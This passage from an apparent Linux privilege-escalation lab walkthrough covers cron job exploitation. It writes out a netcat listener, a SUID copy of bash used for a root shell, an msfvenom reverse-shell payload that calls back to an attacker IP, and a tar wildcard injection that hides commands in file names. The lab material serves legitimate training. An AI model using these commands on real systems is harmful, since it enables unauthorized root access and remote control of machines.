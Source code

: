 ```nc -nvlp 4444```

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
````

* Make sure that the file is executable:

```chmod +x /home/user/overwrite.sh```

* Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

```/tmp/rootbash -p```

> __Remember to remove the modified code, remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!__

```bash
rm /tmp/rootbash
exit
```

---

* Answer the questions below
* What is the value of the PATH variable in /etc/crontab?

```
/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```


## Task 10: Cron Jobs - Wildcards

* View the contents of the other cron job script:

```cat /usr/local/bin/compress.sh```

> Note that the tar command is being run with a wildcard (\*) in your home directory.

* Take a look at the __GTFOBins__ page for tar.

> Note that __tar__ has command line options that let you run other commands as part of a checkpoint feature.

* Use __msfvenom__ on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```

* Transfer the shell.elf file to __/home/user/__ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file is executable:

```chmod +x /home/user/shell.elf```

* Create these two files in __/home/user__:

```bash
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

